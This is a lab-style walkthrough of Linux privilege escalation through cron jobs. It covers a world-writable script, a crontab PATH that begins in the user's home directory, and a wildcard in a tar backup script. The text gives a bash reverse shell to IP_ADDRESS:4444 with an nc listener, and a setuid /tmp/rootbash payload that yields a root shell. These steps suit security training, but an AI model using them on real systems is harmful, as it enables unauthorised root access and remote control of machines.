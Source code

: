 ## File Permissions
View the contents of the system-wide crontab:

```
user@debian:~$ cat /etc/crontab                                                             

SHELL=/bin/sh
PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```

Locate the full path of the overwrite.sh file:

`locate overwrite.sh`

Note that the file is world-writable:

`ls -l /usr/local/bin/overwrite.sh`

Reverse shell
```
#!/bin/bash
bash -i >& /dev/tcp/IP_ADDRESS/4444 0>&1
```

`nc -nvlp 4444`

## PATH Environment Variable
View the contents of the system-wide crontab, note that the PATH variable starts with /home/user which is our user's home directory.

>PATH=`/home/user`:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

Create a file called `overwrite.sh` in your home directory with the following contents:
```
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
Make sure that the file is executable:

`chmod +x /home/user/overwrite.sh`

Wait for the cron job to run (should not take longer than a minute). Run the `/tmp/rootbash` command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

## Wildcards
View the contents of the other cron job script:
```
user@debian:~$ cat /usr/local/bin/compress.sh
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
```